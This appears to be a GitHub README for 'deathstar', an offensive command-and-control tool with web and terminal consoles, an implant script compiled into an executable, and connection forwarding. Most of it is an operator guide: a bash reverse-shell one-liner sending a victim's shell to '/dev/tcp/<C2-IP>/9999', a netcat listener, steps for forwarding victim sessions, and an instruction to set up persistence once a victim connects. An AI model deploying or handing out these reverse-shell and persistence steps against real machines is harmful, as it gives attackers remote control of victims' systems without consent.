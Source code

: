 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a terminal based C2 connection manager.

`stardestroyer.py` is one option of calling into the C2 server.

`compiler.sh` will compile `stardestroyer.py` into an EXE.

# Web based C2
![image](https://github.com/user-attachments/assets/2276420d-6134-48a0-8e2e-5e6a0ddef95b)

# CLI based C2
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Start Web C2 server 
`python3 deathstar-web.py`

1. Open link in web browser

```firefox 127.0.0.1:5000```



# Start CLI C2 server
`python3 deathstar-term.py`



# Have Victim connect to C2 
Linux / MacOS

- This will drop the moment the C2 server 'drops'
`bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`

OR

- This will continue to connect to the C2 server even after it 'drops'
`./stardestroyer.py &`

# Start your listener 
`nc -nvlp 4444`

# Forward the connection to another listener
On the webpage, type the IP of the listening device, and then click forward.

OR

On the terminal, list the connections.

Select `2)` to forward.

Specify the `ID` of the `VICTIM` you'd like to forward.

Then, type the IP of your `LISTENING` device.

# Catch the connection
Once you've caught the connection, begin setting up persistence.

# Wash, rince, repeat.

